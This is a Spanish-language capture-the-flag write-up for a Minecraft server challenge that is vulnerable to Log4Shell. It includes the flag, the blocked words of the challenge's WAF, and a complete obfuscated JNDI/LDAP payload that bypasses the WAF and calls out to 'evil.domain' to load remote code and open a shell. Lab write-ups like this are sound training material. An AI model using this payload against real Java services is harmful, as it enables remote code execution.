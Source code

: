 ## Redstone forge

Descripción: Mis amigos y yo hemos deidido crear un servidor de Minecraft público para conocer gente nueva! No creo, que pase nada malo, no..?

Flag: UAD360{34sY_Pe4Sy}

**Writeup**

En este reto se nos da una IP con el puerto 25565. Un simple escaneo con `nmap` indica de que se trata de un servidor de Minecraft

```
PORT      STATE SERVICE   VERSION

25565/tcp open  minecraft Minecraft 1.12.2 (Protocol: 127, Message: UAD Minecraft Server, Users: 1/100)
```

Al entrar en el servidor con cualquier cliente (oficial y no oficial) se puede observar que hay un usuario llamado UADBot y que el único comando que se puede usar es `/msgbot`. Se presupone por el nombre y por la respuesta al usar el comando que lo único que hace es enviarle un mensage privado a la cuenta BOT.

Probando un poco el comando de mensajería podemos llegar a la conclusión que se trata de Log4Shell, que una vulnerabilidad reciente que afecta a la biblioteca Log4j y que afectó a Minecraft entre otros servicios y aplicaciones. 

El comando por defecto para explotar Log4j no va a funcionar a causa de un WAF que bloquea algunos caracteres y palabras. Entre la lista del WAF están `jndi`, `ldap`, `/`, `-`, `upper` y `lower`.

Sin embargo, estas limitaciones no son suficientes para crear un payload que no use ningún elemento de la lista bloqueada.
En el caso de `ldap` y `jndi` se pueden separar en caracteres con el lookup  `${date:'<caracter>'}`. Juntando muchos lookups distintos se puede formar una palabra por lo que `jndi` se quedaría como:

```
${date:'j'}${date:'n'}${date:'d'}${date:'i'}
```
Se puede hacer lo mismo para `ldap`

Tampoco se puede usar `/`. Para eso se puede aprovechar un lookup de Log4j (`sys`), el cual accede a las propiedades de Java. `file.separator` es un simbolo separador de directorios. El valor por defecto en Windows es '\' y en Unix/Mac '/'.

El comando completo quedaría tal que así:

```
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}:${sys:file.separator}${sys:file.separator}evil.domain${sys:file.separator}a}
```

Para conseguir una shell se podría usar tools como [Log4shell-POC](https://github.com/kozmer/log4j-shell-poc) o simplemente crear un servidor jndi y un servidor web con un archivo de java compilado con el código a ejecutar.

Una vez obtenida la shell la flag estará en flag.txt

---
**Instrucciones para el server**

```
sudo docker build -t mc_spigot .

sudo docker container run -d --name mc_spigot -p 25565:25565 -e EULA=true -t mc_spigot
```
**Instrucciones para el cliente**

Cambiar la IP del dockerfile `CLIENT_IP` a la IP privada del servidor o incluirla en el comando de run

Cambiar la url del jdk en el Dockerfile del cliente
```
sudo docker build -t mc_client .

sudo docker container run -d --name mc_client -e CLIENT_IP=<IP> -t mc_client
```

Creditos a [@nimmis](https://github.com/nimmis/docker-spigot) por la imagen de Docker



